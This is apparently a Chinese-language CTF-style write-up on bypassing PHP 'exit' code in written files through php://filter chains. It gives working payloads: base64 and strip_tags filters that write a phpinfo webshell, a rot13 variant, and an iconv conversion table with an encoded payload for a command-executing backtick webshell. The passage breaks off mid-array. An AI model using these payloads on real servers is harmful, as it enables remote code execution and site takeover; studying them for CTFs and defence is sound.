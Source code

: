 ```c
```

注意到 `if (!strict)` 这个判断，也就是在严格模式下他就会对未知字符和空白字符进行跳过，然后这个地方我也去用 gpt 辅助了一下，可以在 php 环境变量之中将其改为非严格模式就可以对 `=` 号的内容继续解码，所以我就去起了一个 docker，但是还是打不通，文件可以生成但是没办法写入内容就很奇怪，（所以在这里还是断了）。

### 去掉等号之过滤器嵌套 base64

这里 S1maple 师傅的 playload：`php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../s1mple.php`  
这里利用了伪目录的方法让他生成正常的文件名

![filterchain4.png](assets/1710811396-edca39e23229c1d5e429ac18057d446d.png)

### 另类 base64

playload:

```php
php://filter/<?|string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../delete.php
```

这里的思路就是将 = 号写到 php 的标识符中进行过滤掉然后再进行转码再分解死亡代码

### rot13

这个相对于 base64 就不是利用特性绕过，所以相对于好用一些

```php
php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=delete.php
```

# 0x03iconv 转换

因为这个知识点 Zedd 师傅单独写了一篇文章，所以我觉得这里不仅可以绕死亡代码也可以用于文件包含当中，于是我将其作为单独的一个知识点分出，但是还是可以绕过第二类的死亡代码的

# 本质上也和 base64 的特性有挂钩，也是不断的去编码解码来获取我们想要的东西

这里我就拿 Zedd 师傅其中的一段我认为比较有代表性的代码块贴出来

```php
<?php
$base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4";
$conversions = array(
    'R' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
```